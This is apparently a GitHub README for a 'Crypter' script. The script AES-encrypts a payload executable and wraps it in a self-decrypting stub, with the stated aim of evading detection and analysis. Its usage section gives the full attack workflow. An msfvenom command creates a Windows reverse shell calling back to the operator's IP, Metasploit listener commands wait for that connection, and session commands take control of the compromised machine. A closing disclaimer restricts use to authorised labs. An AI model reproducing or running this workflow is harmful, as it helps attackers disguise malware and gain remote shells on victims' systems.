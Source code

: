 # Crypter

## 🔹Description
This script encrypts an executable (payload) using AES encryption and generates a decryption stub. The stub decrypts and executes the payload, making detection and analysis more difficult. It is designed for educational purposes and security research.

## 🛠 Features
- Encrypts a given executable using AES in CTR mode.
- Generates a Python stub that decrypts and executes the payload.
- Uses `pyinstaller` to create a standalone executable.

## 🚀 How It Works
1. The script reads the `shell.exe` file (payload).
2. Encrypts it using AES encryption.
3. Generates a stub script (`stub.py`) containing the encrypted payload.
4. Converts `stub.py` into an executable using `pyinstaller`.
5. When executed, the stub decrypts the payload and runs it.

## 📌 Requirements
- Python 3
- `pyaes` module
- `pyinstaller`
- Metasploit Framework (for payload generation and listener)

## 🔧 Installation
```bash
pip install pyaes pyinstaller
```

## 📦 Usage
### 1️⃣ Generate the Payload
Use `msfvenom` to create a reverse shell payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=<your_ip> lport=443 -f exe > shell.exe
```
Place the `shell.exe` file in the script's directory.

### 2️⃣ Encrypt the Payload
Run the script:
```bash
python crypto.py
```
It will generate `stub.py` and convert it into an executable inside the `dist` folder.

### 3️⃣ Start Metasploit Listener
Open Metasploit and set up the listener:
```bash
msfconsole
use multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost <your_ip>
set lport 443
set exitonsession 0
exploit -j
```

### 4️⃣ Execute the Stub
Run the generated executable (`dist/stub.exe`). This will decrypt and execute the payload. If successful, you will receive a session in Metasploit.

### 5️⃣ Manage Sessions
- View active sessions:
  ```bash
  sessions
  ```
- Interact with a session:
  ```bash
  sessions <id>
  ```

## ⚠ Disclaimer
Use this script only in controlled environments such as penetration testing labs, with explicit permission. Misuse of this tool for unauthorized access to systems is illegal and may result in severe consequences. **The risk is yours**.


